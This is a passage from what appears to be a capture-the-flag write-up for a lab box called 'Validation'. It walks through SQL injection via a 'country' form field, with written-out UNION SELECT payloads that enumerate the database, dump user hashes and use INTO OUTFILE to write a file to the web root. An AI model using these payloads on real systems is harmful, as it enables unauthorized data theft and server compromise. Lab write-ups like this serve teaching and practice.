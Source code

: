 <br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_12.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

```sql
username=admin&country=Brazil' union select user()-- -      # :)  uhc@localhost
username=admin&country=Brazil' union select version()-- -   # :) 10.5.11-MariaDB-1
username=admin&country=Brazil' union select schema_name from information_schema.schemata-- -
```

<br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_13.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

```sql
username=admin&country=Brazil' union select table_name from information_schema.tables where table_schema='registration'-- -
```

<br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_14.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

```sql
username=admin&country=Brazil' union select column_name from information_schema.columns where table_schema='registration' and table_name='registration'-- -
```

<br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_15.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I get hashes of users that I was registering in the web service, by performing a SQLi of the table that Registration, so it does not help me much to be able to access the box.

<br/><br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_16.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I can try to use a **SQLi** to save some content in a file on the server and then try to access it from the **browser** to verify its creation. But if I perform the injection with `BurpSuite` and try to access directly to the content, entering the path informs me that it does not exist, something strange is happening.

```sql
username=admin&country=Brazil' union select 'testing' into outfile '/var/www/html/test.txt'-- -
```

<br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_17.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
